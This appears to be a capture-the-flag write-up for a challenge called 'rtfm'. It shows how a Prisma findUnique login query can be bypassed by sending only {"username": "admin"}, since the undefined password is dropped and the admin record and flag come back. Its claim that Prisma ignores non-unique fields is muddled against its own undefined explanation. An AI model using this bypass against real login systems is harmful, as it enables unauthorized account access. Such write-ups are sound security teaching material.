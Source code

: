 

---

# **rtfm**

## 📌 Description

I am a frontend "developer", and recently I made a very secure flag storing app. Can you hack it?

---

## 🔎 Server’s Login Code

```ts
const u = await prisma.user.findUnique({
  where: { username: c.username, password: c.password }
})
```

Looks fine at first glance… but it’s a **wrong usage of Prisma**.

---

## 🤔 Why Prisma?

* Challenge is in **Bun/TypeScript** → Prisma fits that ecosystem.
* Prisma normally protects against mistakes like **SQLi**.
* But here the bug is in how **Prisma’s API is used**.

---

## 💥 Vulnerability

* `findUnique()` expects **one unique field** (like `username`).
* `findFirst()` should be used for compound checks (e.g. `username + password`).
* Dev mistakenly wrote:

```ts
prisma.user.findUnique({ where: { username, password } })
```

* Prisma sees `password` is **not a unique field**, so it **ignores it**.

---

## 🛠 Exploit

You can log in as admin **without knowing the password**:

### Payload

```json
{ "username": "admin" }
```

---

## 🖥 What happens in backend

Your request becomes:

```ts
prisma.user.findUnique({
  where: { username: "admin", password: undefined }
})
```

* Prisma **drops** `password: undefined`.
* Query turns into:

```ts
prisma.user.findUnique({
  where: { username: "admin" }
})
```

* ✅ You get the **admin record** → flag.

---

## 🚩 Flag

```
NNS{...}
```


